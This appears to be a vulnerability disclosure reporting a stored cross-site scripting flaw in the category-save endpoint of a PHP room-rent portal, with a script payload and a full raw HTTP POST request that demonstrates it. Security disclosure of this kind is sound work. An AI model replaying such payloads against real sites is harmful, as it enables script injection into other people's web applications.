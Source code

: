 # room-rent-portal-site - Cross-site Scripting (XSS)

vendors: https://www.sourcecodester.com/php/15301/room-rent-portal-site-phpoop-free-source-code.html

Date: 2022-05-07

Vulnerability File: /rrps/classes/Master.php?f=save_category

Vulnerability location: /rrps/classes/Master.php?f=save_category, vehicle_name

[+] Payload: <sCrIpT>alert(1)</sCrIpT>

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/rrps/classes/Master.php?f=save_category HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------39324278941716868132909560787
Content-Length: 416
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/rrps/admin/?page=categories
Cookie: PHPSESSID=h4hpbcj74nsiroalrkj8o2251s

-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="id"

2
-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="name"

<ScRiPt>alert(1)</ScRiPt>
-----------------------------39324278941716868132909560787
Content-Disposition: form-data; name="status"

1
-----------------------------39324278941716868132909560787--

```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/xss.gif?raw=true)